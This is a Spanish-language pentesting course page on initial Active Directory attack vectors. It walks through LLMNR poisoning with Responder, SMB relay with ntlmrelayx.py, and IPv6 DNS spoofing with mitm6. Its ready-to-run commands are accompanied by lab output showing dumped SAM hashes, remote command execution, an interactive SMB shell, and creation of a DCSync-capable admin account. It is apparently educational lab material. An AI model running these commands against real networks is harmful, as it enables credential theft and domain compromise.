





[<- Índice](../SistemasWindows.md)
# Vectores de ataque iniciales contra Active Directory

> En esta sección hablaremos de 3 importantes **vectores de ataque** relacionados a **Active Directory**, que podríamos aprovechar como un acercamiento **inicial** al entorno.

- ***LLMNR Poisoning***
- ***SMB Relay***
- ***IPv6 DNS Spoofing***

Todas estas técnicas pertecen más a un enfoque **interno** de la prueba de penetración pues se requiere que tengamos conectividad completa a la red del **directorio activo**, que típicamente es la *intranet* de la organización.

### *LLMNR Poisoning*

> ***LLMNR*** es un protocolo de red, mayormente de sistemas *Windows*, utilizado para identificar dispositivos dentro de la red mediante **nombres**, independientemente del protocolo **DNS**.

Es la evolución del protocolo obsoleto **NBT-NS** y surgió como una alternativa a los **nombres de dominio** y los sistemas **DNS**.

Sin embargo, este protocolo posee una debilidad clave pues en ciertos casos, ==envía el nombre de usuario y el *hash* **NTLMv2** de la contraseña de este usuario== si es **requerido**.

Aunque esta funcionalidad busca ser un mecanismo simple de autenticación, podemos aprovecharnos si hacemos creer a algun dispositivo **víctima** que nosotros somos el dispositivo con el nombre que solicitó.

Esto solo podría funcionar cuando el verdadero servidor **DNS** o **LLMNR** asignado **falla** en resolver el nombre indicado. Por lo que la víctima manda un mensaje **Broadcast** a toda la red preguntando por dicho nombre.

Se vería de la siguiente manera:



#### Causas

Este mensaje **Broadcast** es la clave de la debilidad pues es ahí donde realmente podemos impersonar al dispositivo buscado.

Las causas más típicas por las que ocurre este tipo de escenario son:

- ***Errores al escribir el nombre***: Si un usuario se equivoca al querer escribir `\\servidor2` y escribe realmente `\\servifor2`por ejemplo, el servidor de nombres auténtico no reconocerá el nombre solicitada (pues no existe) y el equípo víctima recurrirá al mensaje **Broadcast** para la resolución.

- ***Malconfiguraciones o malfunciones en el servidor de nombres***: Si el servidor de nombres de la organización no configura adecuadamente los nombres necesarios o presenta desperfectos, podría causar que los dispositivos no obtengan las respuestas esperadas y recurran al **Broadcast** para la resolución.

- ***Protocolo WPAD***: El protocolo **WPAD** (*Web Proxy Auto-Discovery*) es un mecanismo que permite a los dispositivos de una red descubrir y asignar automáticamente un **proxy web**. De estar presente, el dispositivo intentara determinar el nombre del dispositivo asignado como proxy, potencialmente desenvocando el **Broadcast**.

### Responder

> La herramienta predilecta para realizar este tipo de ataques es [Responder](https://github.com/lgandx/responder/), especialmente enfocado al **Poisoning** de protocolos **LLMNR**, **NBT-NS** y **mDNS** e incluso capaz de levantar servicios *MSSQL*, *HTTP* y *SMB* falsos para solicitar autenticaciones completas.

Al ejecutarla, se recomienda indicar las siguentes opciones:

- Con `-I <interfaz>` se indica la interfaz de red con la que deseamos estar a la escucha de los mensajes **Broadcast**.

- Con `-w` indicamos que se inicie un servidor proxy **WPAD** malicioso

- Con `-d` indicamos que la herramienta este a la escucha de cualquier mensaje **Broadcast** *DHCP*, indicando nuestro propio servidor **WPAD** como el asignado a los dispositivos que pregunten.

- Con `-F` forzamos a los dispositivos a autenticarse cuando soliciten el archivod e configuración del servidor **WPAD**.

- Con `-v` indicamos que se imprima una salida verbosa y a detalle de las interacciones.

Entonces, para el laboratorio del curso, el comando completo se ve de la siguiente forma:

```bash
sudo responder -I vmnet8 -dwFv

#   .----.-----.-----.-----.-----.-----.--|  |.-----.----.
#   |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
#   |__| |_____|_____|   __|_____|__|__|_____||_____|__|
#                    |__|
# 
# [*] Sponsor Responder: https://paypal.me/PythonResponder
# 
# [+] Poisoners:
#     LLMNR                      [ON]
#     NBT-NS                     [ON]
#     MDNS                       [ON]
#     DNS                        [ON]
#     DHCP                       [ON]
#
# ... ...
# [+] Listening for events...
```

En cuanto la máquina víctima cause un mensaje **Broadcast** para la resolución, responder capturara los *hashes* **NTLMv2** del usuario.
Para este ejemplo, se solicito una conexión al dispositivo `\\inexistente`, escribiendolo en el explorador de archivos:


**Responder** hizo su trabajo haciendose pasar por dicho dispositivo y obteniendo los siguiente hashes:



Para una auditoría tipo *Pentest* de un **directorio activo**, siempre es buena idea dejar **Responder** escuchando en los momentos de mayor tráfico en la organización, típicamente al inicio de la jornada laboral o al terminar el descanso pues es cuando los trabajadores retoman sus actividades con los recursos de la organización.

Así, podemos capturar la mayor cantidad de **hashes** y utilizarlos posteriormente en distintos vectores de ataque.
Por ejemplo, **crackeando** los *hashes*, realizando ataques tipo **Pass the hash**, **Relays**, etc.

---
## *SMB Relay*

> Otro vector de ataque famoso es la ***redirección de tráfico SMB***, comúnmente llamada ***SMB Relay***.
> Este consiste en interceptar tráfico SMB **legítimo**, alterarlo con un propósito malicioso en mente y **redirigirlo** a una máquina víctima.

Para que este ataque sea existoso, deben cumplirse 2 condiciones importantes.
Primero que el mecanismo **SMB signing** se encuentre desactivado, pues de lo contrario el tráfico alterado será identificado y descartado.
Por otra parte, que el usuario que originó este tráfico sea un **Administrador local** en la máquina objetivo.

Además, la maquina **objetivo** debe ser distinta de la máquina que originó el tráfico **SMB**.

### SMB signing

Dado el primer requisito, debemos identificar que dispositivos tienen activo **SMB signing** y cuales no, para descartar a los equipos incompatibles con el ataque.

Esto puede realizarse con apoyo de `nmap` y el *script NSE* `smb2-security-mode`.
Por ejemplo, si deseamos escanear toda la red **192.168.22.0/24** para determinar el estado de este mecanismo, podríamos ejecutar:

```bash
sudo nmap -p445 --script smb2-security-mode 192.168.22.0/24 -vv -n
```

Con este escaneo, `nmap` interactua con el puerto **445** de todos los equipos activos para identificar el estado de **SMB signing** y lo imprime en pantalla.

```txt
... ...

Nmap scan report for 192.168.22.128
Host is up (0.00018s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 00:0C:29:CF:B1:7A (VMware)

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Nmap scan report for 192.168.22.129
Host is up (0.00019s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 00:0C:29:D6:88:3C (VMware)

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Nmap scan report for 192.168.22.130
Host is up (0.00016s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 00:0C:29:A9:FD:5F (VMware)

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

Aquellos dispositivos que indican `Message signing enabled but not required` son objetivos compatibles con el ataque, pues como dice la herramienta, no es **obligatorio** el **SMB signing**.

Para este ejemplo, la máquina que originará el tráfico **SMB** será aquella con Ia IP `192.168.22.129` y la máquina objetivo será `192.168.22.130`.

### `ntlmrelayx.py`

> Para este tipo de ataque, la herramienta principal es uno de los muchos *scripts* de **Impacket**, `ntlmrelay.py` que se especializa en la redirección de tráfico **NTLM** relacionado a varios protocolos conocidos como **SMB**, **LDAP**, etc.

Este tráfico **NTLM** es el que contiene toda la información relacionada a la autenticación del usuario, y es el que se altera para que podamos indicar nuestras instrucciones maliciosas al objetivo.

Antes de activar formalmente la herramienta, primero debemos hacer un pequeño ajuste en **Responder** para que sea compatible con esta herramienta, ya que **Responder** será su principal apoyo.

Debemos editar el archivo de configuración de **Responder**, típicamente en `/etc/responder/Responder.conf` o `/usr/share/responder/Responder.conf`, y en la sección de `; Servers to start` fijar **SMB** y **HTTP** a **Off**.

```conf
; Servers to start
SQL      = On
SMB      = Off
QUIC     = On
RDP      = On
Kerberos = On
FTP      = On
POP      = On
SMTP     = On
IMAP     = On
HTTP     = Off
HTTPS    = On
DNS      = On
LDAP     = On
DCERPC   = On
WINRM    = On
SNMP     = On
MQTT     = On
```

Es necesario porque `ntlmrelayx.py` levantará sus propios servidores **SMB** y **HTTP**, entonces no deseamos que interfieran entre sí.
Sin embargo, si es **necesario** activar **Responder** para que este realice el **Poisoning** necesario para que el tráfico **SMB** sea enviado a nosotros y así, `ntlmrelay.py` pueda recibirlo.

Continuando, ahora si activamos **Responder** de la manera tradicional con:

```bash
sudo responder -I vmnet8 -dwFv
```

Y ahora, para activar la herramienta principal, indicamos el objetivo con `-t` e activamos el soporte para **SMB2** con `-smb2support`.

```bash
sudo ntlmrelayx.py -t 192.168.22.130 -smb2support

# Impacket v0.11.0 - Copyright 2023 Fortra
# 
# [*] Protocol Client HTTPS loaded..
# [*] Protocol Client HTTP loaded..
# [*] Protocol Client DCSYNC loaded..
# [*] Protocol Client LDAPS loaded..
# [*] Protocol Client LDAP loaded..
# [*] Protocol Client IMAP loaded..
# [*] Protocol Client IMAPS loaded..
# [*] Protocol Client MSSQL loaded..
# [*] Protocol Client SMTP loaded..
# [*] Protocol Client SMB loaded..
# [*] Protocol Client RPC loaded..
# [*] Running in relay mode to single host
# [*] Setting up SMB Server
# [*] Setting up HTTP Server on port 80
# [*] Setting up WCF Server
# [*] Setting up RAW Server on port 6666
# 
# [*] Servers started, waiting for connections
```

De tener más de un objetivo, podriamos especificar la opción `-tf` y un archivo de texto con todas las direcciones IP en lugar de la opción `-t`.

De no indicarle algo en específico a la herramienta, el comportamiento por defecto de esta herramienta es **volcar** todo el contenido de la base de datos **SAM**, es decir, volcar todos los usuarios y *hashes* de los usuarios **locales** del dispositivo objetivo.

Entonces, cuando consultamos una carpeta `\\inexistente` de forma similar al ejercicio anterior, la salida de las herramientas deberia verse algo así:



Particularmente, podemos ver que la herramienta cumplió con su propósito y recupero los hashes:

```txt
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:7e2239f8b2b315fc9a6610d76039ebd2:::
Juan:1001:aad3b435b51404eeaad3b435b51404ee:07b080f83e02d7ce533d5add3f81ec22:::
```

Otras opciones interesantes con las que cuenta `ntlmrelayx.py` son la opción `-c` para ejecutar **comandos** en la maquina objetivo y la opción `-i` para invocar una consola interactiva en un puerto local, según el servicio que se este **redirigiendo**.

##### Ejecución de comandos

Sea la herramienta invocada con:

```bash
sudo ntlmrelayx.py -t 192.168.22.130 -smb2support -c 'whoami /all'
```

Podemos ver que el comando es satisfactoriamente ejecutado:



##### Sesión interactiva

```bash
sudo ntlmrelayx.py -t 192.168.22.130 -smb2support -i
```

Con esta opción únicamente veremos una salida similar a:

```txt
[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.22.129, attacking target smb://192.168.22.130

[*] Authenticating against smb://192.168.22.130 as HFC/OOKAMI SUCCEED

[*] Started interactive SMB client shell via TCP on 127.0.0.1:11000

[*] SMBD-Thread-7 (process_request_thread): Connection from 192.168.22.129 controlled, but there are no more targets left!
```

Podemos ver que se activo una **Shell** interactiva de **SMB**, pues es el tipo de tráfico que estabamos redirigiendo, en **localhost** con el puerto 11000.

Si nos conectamos a dicho puerto mediante cualquier herramienta, por ejemplo `ncat`, nos recibira una consola con funciones similares, pero aumentadas, a `smbclient` mediante la cual podremos interactuar con el servicio y servidor.



Entre otras cosas, podemos listar las carpetas compartidas, conectarse a ellas, leer archivos, descargar y subir archivos, listar información básica del servidor, listar todos los usuarios conectados actualmente al servidor, etc.

---
## *IPv6 DNS Spoofing*

> En las instalaciones por defecto de **Active Directory** el tráfico de red **IPv6** se encuentra habilitado independientemente de que la organización realmente le de uso o no. Dado que **IPv4** es el protocolo predominante en la red, si el tráfico **IPv6** no es gestionado adecuadamente (o deshabilitado), podemos aprovechar este tráfico a nuestro favor.

Por defecto y si no se ha configurado un servidor **DNS** adecuado, los ordenadores en el **Active Directory** realizan solicitudes **DHCPv6** en la red cada cierto tiempo, ==en busca de un servidor **DNS** para **IPv6**==. 

En una red donde no se toma en cuenta **IPv6**, lo más común es que **nadie** responda a estas solicitudes pues no se ha configurado ningún servidor para este rol.

Entonces, ¿que tal que nosotros nos hacemos pasar por el **DNS** solicitado?
De ser así, podemos resolver los nombres solicitados a la dirección **IPv6** que deseemos, tomando el control del tráfico **IPv6**.

En conjunto con el protocolo **WPAD**, podemos incluso redigir tráfico **NTLM** a nosotros y aprovecharlo para autenticarnos en otros servicios mediante su redirección (**Relay**).

Profundicemos un poco en el procedimiento a seguir:

1. Los ordenadores preguntan periodicamente por el **DNS** para **IPv6**
2. Impersonamos a dicho **DNS** en la red interna
3. Por defecto y por el protocolo **WPAD**, los ordenadores solicitan el archivo `wpad.dat` al servidor web con dominio `wpad.[dominio de la organización]`, por ejemplo, `wpad.dominio.com`.
4. Como "**DNS**", resolvemos dicho dominio a nuestra propia IP
5. Recibimos la solicitud y forzamos la autenticación **NTLM** del cliente.
6. Recibimos dicho tráfico **NTLM** y lo redirigimos al servicio con el que deseamos autenticarnos

A continuación, ahondaremos en las herramientas necesarias para este propósito.

#### MITM6 & `ntlmrelayx.py`

> La herramienta [MITM6](https://github.com/dirkjanm/mitm6) implementa el procedimiento necesario de **DNS Spoofing** para el tráfico **IPv6**. Simplemente hay que indicar el dominio principal pertinente a la organización para que la herramienta pueda identificar el tráfico relevante.

Esto se realiza con la bandera `-d` y de ser necesario, como en este laboratorio, indicar la interfaz de red para escucha con la bandera `-i`:

```bash
sudo mitm6 -d hfc.local -i vmnet8

# Starting mitm6 using the following configuration:
# Primary adapter: vmnet8 [00:50:56:c0:00:08]
# IPv4 address: 192.168.22.1
# IPv6 address: fe80::250:56ff:fec0:8
# DNS local search domain: hfc.local
# DNS allowlist: hfc.local
```

> En cuanto a la redirección de tráfico **NTLM**, ya conocemos al confiable `ntlmrelayx.py`, que en esta ocasión trabajara en conjunto con **MITM6** para completar el ataque.

Hay que indicar una serie de opciones a esta herramienta para que el ataque sea compatible:

- `-6`: Para indicar a la herramienta que capture tráfico **IPv6** también.
- `-t <objetivo>`: Para indicar como siempre el objetivo del **Relay**, para este ejemplo, nos enfocaremos en el servicio **LDAPS** del controlador de dominio para realizar una enumeración extensa del **Active Directory**.
- `-wh <dominio wpad>`: Con esta opción, indicamos que se active el servidor **WPAD** con el nombre indicado, para este ejemplo será `wpad.hfc.local`.
- `-l <directorio>`: Directorio donde se almacenará toda la información extraida

El comando final, dado que el controlador de dominio es `192.168.22.128`, se ve de la siguiente manera:

```bash
sudo ntlmrelayx.py -6 -wh wpad.hfc.local -t ldaps://192.168.22.128 -l ./lootdir
```

Ya con ambas herramientas a la escucha, solo resta esperar la solicitud **DHCPv6** periódica o algun evento que la fuerce, por ejemplo, el reinicio de alguna computadora.

Cuando ocurra, **MITM6** lo indicara en pantalla con entradas similares a:

```txt
IPv6 address fe80::192:168:22:129 is now assigned to mac=00:0c:29:d6:88:3c host=PC-OOKAMI.hfc.local. ipv4=192.168.22.129
IPv6 address fe80::192:168:22:129 is now assigned to mac=00:0c:29:d6:88:3c host=PC-OOKAMI.hfc.local. ipv4=192.168.22.129
Sent spoofed reply for wpad.hfc.local. to fe80::192:168:22:129
Sent spoofed reply for wpad.hfc.local. to fe80::192:168:22:129
```

Posteriormente, `ntlmrelayx.py` anunciará la solicitud del archivo del protocolo **WPAD**:

```txt
[*] HTTPD(80): Client requested path: /wpad.dat
```


Y el ataque concluye una vez que `ntlmrelayx.py` anuncie: `[*] Domain info dumped into lootdir!`, pues habrá generado varios archivos en distintos formatos con toda la información que logró extraer de **LDAPS**.

```bash
ls lootdir

# domain_computers_by_os.html  domain_computers.json  domain_groups.json  domain_policy.json  domain_trusts.json          domain_users.html
# domain_computers.grep        domain_groups.grep     domain_policy.grep  domain_trusts.grep  domain_users_by_group.html  domain_users.json
# domain_computers.html        domain_groups.html     domain_policy.html  domain_trusts.html  domain_users.grep
```

Por ejemplo, si abrimos en el navegador el archivo `domain_users.html` podremos visualizar comodamente la información básica de varios usuarios, como nombres, fecha de creación y descripciones:


Para este ejemplo, se capturó el inicio de sesión de un usuario normal. Sin embargo el ataque es aún más **crítico** si con suerte, capturaramos la sesión de un administrador abierta.

Podremos ver que a parte de que es posible enumerar aun más información, `ntlmrelayx.py` aprovecha los privilegios elevados para crear un **nuevo usuario** de nombre y contraseña aleatorios, agregarlo al grupo de **Enterprise Admins** y modificar el **ACL** para otorgarle privilegios especiales.

```txt
[*] HTTPD(80): Authenticating against ldaps://192.168.22.128 as HFC/ADMINISTRATOR SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] User privileges found: Create user
[*] User privileges found: Adding user to a privileged group (Enterprise Admins)
[*] User privileges found: Modifying domain ACL
[*] Attempting to create user in: CN=Users,DC=hfc,DC=local
[*] Adding new user with username: VceBBXoXmq and password: e:RUgxQ,6PekS36 result: OK
[*] Querying domain security descriptor
[*] Success! User VceBBXoXmq now has Replication-Get-Changes-All privileges on the domain
[*] Try using DCSync with secretsdump.py and this user :)
[*] Saved restore state to aclpwn-20250602-220901.restore
[-] New user already added. Refusing to add another
[-] Unable to escalate without a valid user, aborting.
[*] Dumping domain info for first time
[*] Domain info dumped into lootdir!
```

Podemos ver que sin duda es un **vector de ataque** poderoso, pero debemos tomar en cuenta que realizar este **Spoofing** durante demasiado tiempo podría alterar el comportamiento del tráfico de red, pues aunque en distintos protocolos, hay 2 servidores **DNS** resolviendo nombres.

Por esto se recomienda ejecutar este ataque en **Sprints** de 10 a 15 minutos y para permitir que la red se stabilice entre ataques.

---
# Enlaces